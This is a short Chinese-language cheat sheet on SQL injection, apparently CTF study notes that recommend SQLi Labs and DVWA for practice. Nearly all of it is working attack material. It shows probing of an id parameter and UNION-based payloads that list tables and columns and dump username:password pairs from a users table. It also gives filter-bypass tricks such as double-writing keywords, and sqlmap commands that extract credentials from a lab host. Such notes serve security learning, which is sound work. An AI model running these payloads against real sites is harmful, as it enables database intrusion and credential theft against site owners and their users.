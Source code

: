 # SQL注入

* ### 注入尝试

```
http://newspaper.com/items.php?id=2 //正常回显
http://newspaper.com/items.php?id=2 and 1=2 //提示报错或者未搜索到
http://newspaper.com/items.php?id=2 and 1=1 //正常回显
```

则可以执行注入，注入点为?id=

* ### 开始注入

Payload构造：

```
id=2'; show database;#
id=-1' order by 1#   //利用order by 1/2/3/4 查询列数
id=-1' union select 1,2,3,4,...,n#   //联合注入查看返回值（n为order by已确定的列数）
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#   //爆database里面的表
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#    //爆users表里面的字段
id=-1' union select 1,2,group_concat(username,0x3a,password) from users#    //爆值，最后输出以username:password格式输出
```

```
Information_schema.tables //存储了数据库中所有的表信息
Information_schema.columns where table_name = ‘a’  //存储了数据库内部表a中所有的字段信息
```

* ### 盲注
* ### Bypass

有一些题目中不需要用单引号闭合直接进行执行

一些题目中需要单引号加括号应对\('id'\)语句

一些题目中需要进行双引号加括号 --&gt; \("id"\)

或者双写绕过

```
union select --> uniunionon selselectect
```

* ### SQLMAP

sqlmap语句

```
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security(数据库名) --tables --batch -v 0    //爆表
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users（表名） --columns --batch -v 0    //爆字段
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users -C username,password（字段名） --dump --batch -v 0    //爆值
```

* #### 推荐练习环境
* SQLi Labs

* DVWA



